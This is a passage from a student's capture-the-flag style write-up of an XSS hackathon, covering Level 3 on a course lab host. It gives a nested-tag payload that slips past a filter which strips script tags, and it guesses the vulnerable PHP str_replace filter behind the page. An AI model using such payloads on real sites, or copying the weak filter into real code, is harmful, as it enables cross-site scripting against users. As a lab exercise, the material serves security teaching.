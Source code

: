 ![Level 2 ](images/level2.png)

Level 3

URL : [http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php](URL : http://waph-hackathon.eastus.cloudapp.azure.com/xss/level3/echo.php)

In order to successfully attack the URL and evade the filtering of `<script>` tags sent through input variables directly, the attacking code needs to be fragmented and then reassembled. This approach showcases the persistence and ingenuity necessary in XSS attacks, as it allows for the injection of malicious code capable of triggering alerts on specific web pages.

```
input=<scr<sc<script>ript>ipt>alert('Level 3 - Hacked by Vikhyath Reddy Bheemreddy')</scr</sc</script>>>
```

Code Possibility:
```
	$input = echo $_POST['input'];
	$input = str_replace(['<script>', '</script>'], '', $input)
```

![Level 3 ](images/level3.png)

